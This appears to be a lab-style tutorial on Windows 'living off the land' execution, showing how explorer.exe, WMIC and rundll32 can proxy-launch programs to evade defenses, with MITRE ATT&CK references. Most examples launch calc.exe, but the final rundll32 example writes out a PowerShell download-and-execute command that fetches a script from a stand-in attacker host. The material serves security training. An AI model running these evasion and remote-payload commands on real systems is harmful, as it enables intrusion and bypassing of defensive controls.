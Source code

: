 # File Execution via Living Off the Land Binaries (LOLBins)

This document demonstrates various methods for executing binaries within Windows by abusing legitimate system binaries. These techniques, based on the MITRE ATT&CK framework, are known as **Signed Binary Proxy Execution** or **Indirect Command Execution**. Attackers leverage trusted system tools to spawn malicious payloads, helping to evade defensive controls.

---

## File Explorer

**File Explorer** (`explorer.exe`) is the default file manager for Windows. It can be abused to execute other `.exe` files, making it useful for indirect command execution. This technique launches payloads from a trusted parent process.

- **Locations:**
    - `C:\Windows\explorer.exe` (64-bit)
    - `C:\Windows\SysWOW64\explorer.exe` (32-bit)

**Example:**

```cmd
C:\Users\thm> explorer.exe /root,"C:\Windows\System32\calc.exe"
```

This command launches Calculator (`calc.exe`) as a child process of `explorer.exe`.

---

## WMIC

**Windows Management Instrumentation Command-line (WMIC)** is a utility for managing Windows components. It can also be used to execute binaries, aiding in evasion.

- **MITRE ATT&CK:** Signed Binary Proxy Execution (T1218)

**Example:**

```cmd
C:\Users\thm> wmic.exe process call create calc
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
                ProcessId = 1740;
                ReturnValue = 0;
};
```

This command creates a new process for `calc.exe`.

---

## Rundll32

**Rundll32** is a built-in tool for loading and running DLL files. It can be abused to execute arbitrary payloads, including JavaScript and PowerShell scripts.

- **Locations:**
    - `C:\Windows\System32\rundll32.exe` (64-bit)
    - `C:\Windows\SysWOW64\rundll32.exe` (32-bit)
- **MITRE ATT&CK:** Signed Binary Proxy Execution: Rundll32 (T1218)

**Example: Execute calc.exe using JavaScript:**

```cmd
C:\Users\thm> rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```

This command uses `rundll32.exe` to execute JavaScript that launches `calc.exe`.

**Example: Execute a PowerShell script via JavaScript:**

```cmd
C:\Users\thm> rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```

This command downloads and executes a remote PowerShell script in memory.

---

> **Note:** These techniques are commonly used for evasion and persistence by attackers. Always use them in authorized environments for learning and testing purposes only.